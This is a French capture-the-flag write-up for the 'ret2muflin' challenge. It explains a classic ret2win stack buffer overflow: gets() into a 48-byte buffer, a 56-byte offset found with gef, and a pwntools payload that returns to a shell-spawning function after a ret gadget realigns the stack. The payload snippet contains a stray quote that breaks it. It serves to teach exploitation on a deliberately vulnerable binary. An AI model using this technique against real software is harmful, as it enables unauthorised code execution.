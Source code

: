 # ret2muflin

## Énoncé
Pour ce challenge, vous devez arriver à destination, mais le GPS ne semble pas vouloir comprendre ce que vous dites.

## Résolution
On reçoit uniquement un fichier compilé, voyons voir comment il se décompile : 

![Fichier décompilé](decompiled.png).

On a un buffer de 48 octets, et un appel à `gets`. Buffer overflow donc.

Qu'en faire ? Heureusement on voit qu'il y a une autre fonction que `main`, `muflin` : 

![La fonction muflin](muflin.png)

qui nous donne une shell. Le plan d'action est simple, il s'agit d'un simple ret2win (clin d'oeil le nom du challenge).

Voyons voir ce que checksec nous dit :
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```
Parfait, il n'y a aucune protection il devrait suffire d'envoyer la bonne adresse pour gagner.

Avec gdb, on détermine la quantité d'octets à envoyer avant l'adresse : 
[gef](https://github.com/hugsy/gef) 

nous permet de générer une chaine de caractères à envoyer comme entrée, puis quand le programme segfault on regarde ce qui s'est retrouve dans `rsp` et on retrouve l'offset dans la chaine : 
![Après le buffer overflow](rsp.png) :

```
gef➤  pattern search haaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaana
[+] Searching for '616e616161616161616d616161616161616c616161616161616b616161616161616a61616161616161696161616161616168'/'686161616161616169616161616161616a616161616161616b616161616161616c616161616161616d616161616161616e61' with period=8
[+] Found at offset 56 (big-endian search)
```

Il faut donc envoyer 56 octets puis l'adresse à laquelle on souhaite return, [pwntools](https://github.com/Gallopsled/pwntools) à la rescousse.

On peut récupérer l'adresse de la fonction muflin de cette manière :
```python
elf = ELF("./chall")

payload = b"A" * 56"
muflin = p64(elf.symbols["muflin"])
payload += muflin
```

Cependant cela ne suffit pas : on jump bien à `muflin`, mais on segfault pendant l'exécution de la fonction `system`. C'est du au fait que le stack pointer n'est pas bien aligné. Pour le réaligner, on peut effectuer un autre return avant d'aller à `muflin`.
On peut trouver l'adresse d'une instruction `ret` avec `objdump` : `objdump -d chall`, j'ai pris par exemple 0x40117f

La version finale du script est jointe à ce fichier
